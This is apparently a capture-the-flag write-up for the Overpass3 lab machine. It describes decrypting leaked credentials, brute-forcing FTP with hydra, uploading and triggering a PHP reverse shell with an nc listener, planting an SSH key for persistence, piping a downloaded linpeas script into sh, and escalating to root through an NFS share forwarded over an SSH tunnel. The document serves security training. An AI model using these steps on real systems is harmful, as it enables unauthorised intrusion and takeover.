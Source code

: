 Overpass3 Writeup


# Enumeration

First we start a nmap scan and a gobuster scan as always and start exploring manually the webpage.

The Webpage itself looks a bit empty and static but we find a few possible Usernames:

[![https://imgur.com/OQ86bnA.png](https://imgur.com/OQ86bnA.png)](https://imgur.com/OQ86bnA.png)

We also found a /backups endpoint through our gobusterscan.

Visiting that page http://ip/backups give us the option to download the backup.zip

[![https://imgur.com/jPMhQKN.png](https://imgur.com/jPMhQKN.png)](https://imgur.com/jPMhQKN.png)

After downloading and unzipping the file we get two new files:

[![https://imgur.com/0vbx7Ob.png](https://imgur.com/0vbx7Ob.png)](https://imgur.com/0vbx7Ob.png)

one of them is a PGP(Pretty Good Privacy) Key and the other one is a protected excel file which we need to open with our PGP key.

After researching abit i found that we can import the key with gpg:

gpg --import priv.key

and then use it to open the file:

gpg CustomerDetails.xlsx.gpg

now after renaming CustomerDetails.xlsx to CustomerDetails we have a folder with files we can search through.

One of the files is called sharedStrings.xml where we find a list of Credentials.

But where do we login? We didn't find any login through gobuster so lets check the services we found on nmap.

[![https://imgur.com/tN09AUl.png](https://imgur.com/tN09AUl.png)](https://imgur.com/tN09AUl.png)

We have an ssh and an FTP service.

I created short wordlists out of the credentials we found to automate trying to loginto the services and now we can use hydra to give us a hand for executing the login.

The command for hydra is the following:

[![https://imgur.com/7m8lubp.png](https://imgur.com/7m8lubp.png)](https://imgur.com/7m8lubp.png)

(If you want to replace the ip like in the image above you can: sudo vim /etc/hosts and a line: ip overpass3)

We can already see that SSH wont work with out a private rsa key.

So lets try ftp.

Success!

[![https://imgur.com/DzdnfOz.png](https://imgur.com/DzdnfOz.png)](https://imgur.com/DzdnfOz.png)

We can now loginto FTP!

[![https://imgur.com/GZzNLB5.png](https://imgur.com/GZzNLB5.png)](https://imgur.com/GZzNLB5.png)

After testing that we can upload files:

[![https://imgur.com/1uxQlRt.png](https://imgur.com/1uxQlRt.png)](https://imgur.com/1uxQlRt.png)

We can now create a folder upload our reverseshell and then call the endpoint where the file is stored to activate the reverseshell.
(Get a reverseshell on https://github.com/pentestmonkey/php-reverse-shell and dont forget to change the ip and port)

[![https://imgur.com/s2NQwJR.png](https://imgur.com/s2NQwJR.png)](https://imgur.com/s2NQwJR.png)

We also need to start a nc listener:

sudo nc -lvnp port

To activate the shell we can curl the place where its stored:

curl http://overpass3/shell/phprev.php

And we are in! 

[![https://imgur.com/F2x8fh9.png](https://imgur.com/F2x8fh9.png)](https://imgur.com/F2x8fh9.png)

## Persistence

If we navigate to the /home directory we can see that there are two users:
James and Paradox.
For Paradox we know the password so lets switch to that user:

[![https://imgur.com/4SCpOba.png](https://imgur.com/4SCpOba.png)](https://imgur.com/4SCpOba.png)

In his homedirectory (~) we can see a .ssh folder so lets put our public key in authorizedkeys to get a better shell and persistance.

[![https://imgur.com/Tgsi0S5.png](https://imgur.com/Tgsi0S5.png)](https://imgur.com/Tgsi0S5.png)

Now we can use our private id_rsa key to loginto SSH:

[![https://imgur.com/l7yN2dj.png](https://imgur.com/l7yN2dj.png)](https://imgur.com/l7yN2dj.png)


## Privilege Escalation

Lets find out what we can execute and how we can escalate our privileges.

First we create a simple http.server on our hostmachine:

python3 -m http.server

i already have linpeas if you need to downloaded it do it here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

and on the target machine go into the /tmp directory:

curl http://your_THM_IP/linpeas.sh | sh

we found a option root_squash for nfs so we could try to ssh tunnel into that service.

[![https://imgur.com/364hbdt.png](https://imgur.com/364hbdt.png)](https://imgur.com/364hbdt.png)

We are logged into ssh as paradox and we want to get access to the james user.

[![https://imgur.com/vjgiKIG.png](https://imgur.com/vjgiKIG.png)](https://imgur.com/vjgiKIG.png)

We see that the folder of james is shared /home/james.

So we can mount it as paradox and then access the content, right?

No, :( because we ain't root.

So we need a way to mount as root.. Where do we have root access? On our own machine! 

So we find the port that the service is running on, normally we would do that with netstat but since its not available we run rpcinfo.

[![https://imgur.com/yQwrJH0.png](https://imgur.com/yQwrJH0.png)](https://imgur.com/yQwrJH0.png)

We can see on which port nfs is running: 2049.

Now since we have access to paradox with ssh we can PORTFORWARD.

ssh paradox@10.10.185.59 -i paradox -L 2049:localhost:2049

[![https://imgur.com/WJ5ae58.png](https://imgur.com/WJ5ae58.png)](https://imgur.com/WJ5ae58.png)

that means we can send our mount command from our host machine ( where we cant access the port 2049 of the target because its locally ) through the ssh port 22 where we have access to and then locally we can access again the port 2049 and since we have root privileges on our host we can mount the folder.

[![https://imgur.com/zk99jhr.png](https://imgur.com/zk99jhr.png)](https://imgur.com/zk99jhr.png)

We successfully mounted through an SSH-Tunnel :) 

Lets see what we find in the share.

A user flag! 

[![https://imgur.com/jU8g4fA.png](https://imgur.com/jU8g4fA.png)](https://imgur.com/jU8g4fA.png)

And ssh credentials from james !

[![https://imgur.com/0uV8IsI.png](https://imgur.com/0uV8IsI.png)](https://imgur.com/0uV8IsI.png)

Lets loginto his account with ssh.

[![https://imgur.com/ZayPFoa.png](https://imgur.com/ZayPFoa.png)](https://imgur.com/ZayPFoa.png)

Now we can copy a binary, give it SUID privileges from our HOST since we are root there.

So we can cp /bin/bash .
The shared directory as James.

[![https://imgur.com/tpqioux.png](https://imgur.com/tpqioux.png)](https://imgur.com/tpqioux.png)

And then we can execute it with the flag -p so the set permission is not reset.

[![https://imgur.com/gzXSQgw.png](https://imgur.com/gzXSQgw.png)](https://imgur.com/gzXSQgw.png)

Give it root privilege.

[![https://imgur.com/Jn8FPH7.png](https://imgur.com/Jn8FPH7.png)](https://imgur.com/Jn8FPH7.png)

Execute it.

[![https://imgur.com/wSQ3NVf.png](https://imgur.com/wSQ3NVf.png)](https://imgur.com/wSQ3NVf.png)

We made it! 

[![Celebration](https://media.giphy.com/media/3FQ1YRBV0TnTi6eG4g/giphy.gif)

Thank you for reading :) 
